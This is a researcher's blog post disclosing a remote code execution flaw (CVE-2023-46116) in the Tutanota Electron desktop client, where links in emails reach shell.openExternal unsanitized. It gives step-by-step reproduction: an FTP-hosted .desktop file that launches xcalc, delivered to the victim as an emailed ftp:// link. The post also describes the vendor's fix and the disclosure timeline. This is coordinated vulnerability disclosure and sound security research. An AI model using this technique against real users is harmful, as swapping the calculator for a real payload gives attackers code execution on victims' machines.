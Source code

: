 ```yaml
---
title: "The Plight of Unsanitized Function Calls"
date: "2023-10-22T21:28:41+05:30"
author: "Prajyot Chemburkar"
cover:
    image: "images/cover.png" 
    alt: "some image that didn't load"
    caption: "relevant xkcd - exploits of a mom"
    responsiveImages: false
tags: ["Electron", "CVE", "RCE"]
keywords: ["electron", "code execution"]
description: "Been researching electron app security recently, decided to look at Tutanota."
showFullContent: true
readingTime: true
draft: false
showToc: true
tocOpen: true
showReadingTime: true
hideSummary: true
---
```


# Introduction
*Tutanota is the world's most secure email service, easy to use and private by design. You get fully encrypted calendars and contacts with all our personal and business email accounts.* ~[The Tutanota Website](https://tutanota.com/)

# Debugging Setup
Tutanota fortunately is open source. So all you have to do is download the application source, spin up vscode or any IDE of your liking and read away. Or you can use [grep.app](https://grep.app) to look at its code, which is what I did in this case.

I particularly like using Ubuntu with the XFCE desktop environment, as it makes it simpler to demonstrate exploits, as we will see later.

# Methodology
My methodology for reviewing electron applications, at least when it comes to *electron specific* vulnerabilities, is quite simple: Use a bottom up approach. Grep for sinks and then trace the source.

# Stumbling Upon a Sink
One of the common functions that developers use in electron apps is `openExternal` from the `shell` module. This function opens URLs' using their default or native applications. As an example, if you pass a URL with the `https:` scheme, `shell.openExternal` will spawn your default browser to open it.

The problem with this is, if developers do not sanitize this function call, and pass it user-controlled URLs', then an attacker may make use of schemes like `file:`, `ftp:`, `smb:`, etc. to gain code execution on a victim's computer. There's a ton of URL schemes availble that can be used to abuse this "feature", more on that [here](https://positive.security/blog/url-open-rce).

I found this unsanitized call to `shell.openExternal` in Tutanota's source:

```js
private onNewWindow(details: HandlerDetails): { action: "deny" } {
    const parsedUrl = parseUrlOrNull(details.url)

    if (parsedUrl == null) {
        log.warn(TAG, "Could not parse url for new-window, will not open")
    } else if (parsedUrl.protocol === "file:") {
        // this also works for raw file paths without protocol
        log.warn(TAG, "prevented file url from being opened by shell")
    } else {
        // we never open any new windows directly from the renderer
        // except for links in mails etc. so open them in the browser
        this.electron.shell.openExternal(parsedUrl.toString()).catch((e) => {
            log.warn("failed to open external url", details.url, e)
            this.electron.dialog.showMessageBox({
                title: lang.get("showURL_alt"),
                buttons: [lang.get("ok_action")],
                defaultId: 0,
                message: lang.get("couldNotOpenLink_msg", { "{link}": details.url }),
                type: "error",
            })
        })
    }

    return {
        action: "deny",
    }
}
```

Looks like the devs are sort of aware of what `shell.openExternal` can do, hence the blocked `file:` scheme. But there are way too many other schemes that we can use to abuse this.

# Using FTP to gain RCE
Execute and authenticate to the Tutanota desktop version `3.118.8` AppImage on a Ubuntu Desktop with the XFCE environment.
![tuta-install](images/tuta-install.png)

On another machine, host an FTP server with anonymous access enabled. Create and place a `pwn.desktop` file in the FTP root, with the following content:
```sh
[Desktop Entry]
Exec=xcalc
Type=Application
```

Send an email to the email account logged in on tutanota containing a hyperlink pointing to the `pwn.desktop` file on the FTP server. Replace the corresponding values in the hyperlink: `ftp://username:password@ip-address/pwn.desktop`.
![tuta-send-mail](images/tuta-send-mail.png)

On the tutanota desktop application, click on the hyperlink in the email received. Observe that the calculator application opens. You may need to confirm execution of the application in some cases.
![tuta-rce](images/tuta-rce.png)

# The Fix Deployed
Tutanota decided to fix the issue by adding a warning/confirmation dialouge before opening any links that are not http/https. This seemed like a good fix to me, as:
- It is confirmed that the user actually wants to open said link.
- It does not affect the use of legitimate deeplinks.

# Timeline
- September 26th 2023, 7:20 AM UTC, Reported to Tutanota
- September 26th 2023, 9:33 AM UTC, Fixed by Tutanota
- October 20th 2023, CVE-2023-46116 assigned
- December 15th 2023, Report disclosed
